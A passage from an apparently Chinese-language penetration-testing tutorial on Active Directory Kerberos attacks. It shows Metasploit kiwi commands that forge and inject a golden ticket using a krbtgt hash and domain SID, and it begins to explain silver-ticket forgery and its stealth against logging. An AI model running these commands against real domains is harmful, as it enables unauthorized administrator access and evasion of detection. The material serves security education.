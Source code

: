 成功连接域控制器后，可进性相关操作。如使用psexec工具对域控执行远程命令。

![image-20220816233445339](assets/image-20220816233445339.png)



**4）使用MFS进行攻击**

前提，已经拿到了域SID和krbtgt的NTLM哈希值。并且在普通域成员主机上上线一个MSF会话。加载kiwi模块后，执行下面命令：

```shell
# golden_ticket_create -d 域名 -k krbtgt用户的Hash -s 域sid -u 需要伪造的域管理员用户名 -t /root/krbtgt.ticket
golden_ticket_create -d whoamianony.org -k 6be58bfcc0a164af2408d1d3bd313c2a -s S-1-5-21-1315137663-3706837544-1429009142 -u administrator -t /root/krbtgt.ticket

kerberos_ticket_list # 查看本地储存的票据
kerberos_ticket_use /root/krbtgt.ticket # 将票据注入内存
```



### 1.2.3 白银票据

#### 1）白银票据原理分析

**白银票据原理：**白银票据不同于黄金票据，白银票据的利用过程是**伪造TGS**，通过已知的授权服务密码生成一张可以访问该服务的TGT。因为在票据生成过程中不需要使用KDC，所以可以绕过域控制器，很少留下日志。而黄金票据在利用过程中由KDC颁发TGT，并且在生成伪造的TGT得20分钟内，TGS不会对该TGT的真伪进行效验。白银票据依赖于服务账号的密码散列值，这不同于黄金票据利用需要使用 Krbtgt 账号的密码哈希值，因此更加隐蔽。白银票据会通过相应的服务账号来伪造TGS，例如：LDAP、MSSQL、WinRM、DNS、CIFS等，范围有限，只能获取对应服务的权限。

**白银票据使用条件：**KDC 向客户端 Client 返回`AS_REP`时插入了 PAC，PAC 中包含的是用户的 SID、用户所在的组等一些信息。当最后服务端 Server 收到 Client 发来的`AP_REQ`请求后，首先会对客户端身份验证。通过客户端身份验证后，服务器 Server 会拿着 PAC 去询问 DC 该用户是否有访问权限，DC 拿到 PAC 后进行解密，然后通过 PAC 中的 SID 判断用户的用户组信息、用户权限等信息，然后将结果返回给服务端，服务端再将此信息域用户请求的服务资源的 ACL 进行对比，最后决定是否给用户提供相关的服务。
